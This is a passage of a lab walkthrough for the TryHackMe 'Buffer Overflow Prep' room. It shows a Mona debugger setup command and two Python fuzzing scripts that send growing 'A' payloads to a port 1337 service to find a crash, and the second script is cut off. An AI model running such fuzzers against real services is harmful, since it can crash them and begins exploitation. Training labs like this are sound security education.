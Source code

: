 # Buffer Overflow Guide

This following page recreates the steps on the [TryHackMe room](https://tryhackme.com/room/bufferoverflowprep) linked below in order to perform a simple stack based buffer overflow.

Configure Mona on the RDP session. Inside Immunity Debugger run the following command in the command box.

```
!mona config -set workingfolder c:\mona\%p
```



Run the script below to Fuzz the application.

> fuzzer.py 
```python
import socket, time, sys

ip = "<IP>"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

> fuzzer-multiple.py
```python
# Makes uses of multi stage input. (Enter name then message)
import socket, time, sys

ip = "<IP>"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
```